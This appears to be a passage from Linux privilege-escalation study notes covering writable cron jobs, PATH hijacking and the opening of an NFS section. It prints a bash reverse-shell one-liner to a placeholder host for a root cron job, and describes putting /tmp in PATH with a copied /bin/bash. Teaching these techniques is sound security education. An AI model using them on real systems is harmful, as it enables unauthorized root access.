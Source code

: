 Any user can read the file keeping system-wide cron jobs under `/etc/crontab`

If we can change the file, a reverse shell can be implemented to gain a root shell.

Example of a reverse shell in a cron job:

```bash
#!/bin/bash
bash -i >& /dev/tcp/<IP_HERE>/<PORT_HERE> 0>&1
```

You can also use the `crontab -l` command to list the current user’s crontab.

Crontab is always worth checking as it can sometimes lead to easy privilege escalation vectors. The following scenario is not uncommon in companies that do not have a certain cyber security maturity level
1. System administrators need to run a script at regular intervals.
2. They create a cron job to do this
3. After a while, the script becomes useless, and they delete it
4. They do not clean the relevant cron job

This change management issue leads to a potential exploit leveraging cron jobs.

## PATH Variable
If a folder for which your user has write permission is located in the path, you could potentially hijack an application to run a script. PATH in Linux is an environmental variable that tells the operating system where to search for executables. For any command that is not built into the shell or that is not defined with an absolute path, Linux will start searching in folders defined under PATH. (PATH is the environmental variable were are talking about here, path is the location of a file).

The scenario below will give you a better idea of how this can be leveraged to increase our privilege level. As you will see, this depends entirely on the existing configuration of the target system, so be sure you can answer the questions below before trying this.

1. What folders are located under $PATH
2. Does your current user have write privileges for any of these folders?
3. Can you modify $PATH?
4. Is there a script/application you can start that will be affected by this vulnerability?

The folder that will be easier to write to is probably /tmp. At this point because /tmp is not present in PATH so we will need to add it. As we can see below, the “export PATH=/tmp:$PATH” command accomplishes this.

Creating an executable is fairly easy by copying /bin/bash as “hack” under the /tmp folder.

We have given executable rights to our copy of /bin/bash, please note that at this point it will run with our user’s right. What makes a privilege escalation possible within this context is that the path script runs with root privileges.

## NFS
Privilege escalation vectors are not confined to internal access. Shared folders and remote management interfaces such as SSH and Telnet can also help you gain root access on the target system. Some cases will also require using both vectors, e.g. finding a root SSH private key on the target system and connecting via SSH with root privileges instead of trying to increase your current user’s privilege level.
